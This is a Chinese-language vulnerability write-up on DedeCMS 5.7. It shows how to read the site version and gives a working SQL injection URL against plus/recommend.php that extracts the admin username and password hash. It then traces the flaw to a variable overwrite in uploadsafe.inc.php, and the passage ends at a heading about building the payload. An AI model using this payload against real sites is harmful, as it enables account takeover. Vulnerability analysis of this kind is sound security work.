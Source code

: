 ```yaml
---
description: 记录DedeCMS5.7漏洞信息
---
```


# DedeCMS5.7漏洞利用与分析

 源码链接：[https://pan.baidu.com/s/12PPzu6yho-ae1XRsQs5zxw](https://pan.baidu.com/s/12PPzu6yho-ae1XRsQs5zxw) 提取码：ay3g

## 漏洞复现

在分析漏洞形成原因之前，先来看一下这个漏洞复现情况。

查看系统的发布日期，直接访问 网站url/data/admin/ver.txt

![](../.gitbook/assets/image%20%2894%29.png)

此时间发布的版本在plus/recommend.php中存在注入漏洞，在此演示直接爆出用户名和密码散列值的payload

```text
/plus/recommend.php?action=&aid=1&_FILES[type][tmp_name]=\' or mid=@`\'` /*!50000union*//*!50000select*/1,2,3,(select CONCAT(0x7c,userid,0x7c,pwd)+from+`%23@__admin` limit+0,1),5,6,7,8,9%23@`\'`+&_FILES[type][name]=1.jpg&_FILES[type][type]=application/octet-stream&_FILES[type][size]=111
```

![&#x6F0F;&#x6D1E;&#x8868;&#x73B0;](../.gitbook/assets/image%20%28111%29.png)

## 漏洞分析

打开recommend.php,查看代码，第12行程序引入了一个common.inc.php

![](../.gitbook/assets/image%20%2887%29.png)

跟进去看一下

![](../.gitbook/assets/image%20%2845%29.png)

只要提交的URL中不包含cfg\_\|GLOBALS，即可通过检查。继续往下看代码

![](../.gitbook/assets/image%20%2826%29.png)

在第95行引入了uploadsafe.inc.php文件，查看文件代码，在第29行存在一个漏洞。

```text
$$_key = $_FILES[$_key]['tmp_name'] = str_replace("\\\\", "\\", $_FILES[$_key]['tmp_name']);
```

传入$\_key为type时 该语句就变成了对$type的赋值，导致了对$type变量覆盖，而在recommend.php中第38行，用到了$type变量来拼接sql语句。

```text
$arcRow=$dsql->GetOne("SELECT s.*,t.* FROM `#@__member_stow` AS s LEFT JOIN `#@__member_stowtype` AS t ON s.type=t.stowname WHERE s.aid='$aid' AND s.type='$type'");
```

## 如何构造payload

我们已经知道了漏洞存在的点，该如何达到目的那？



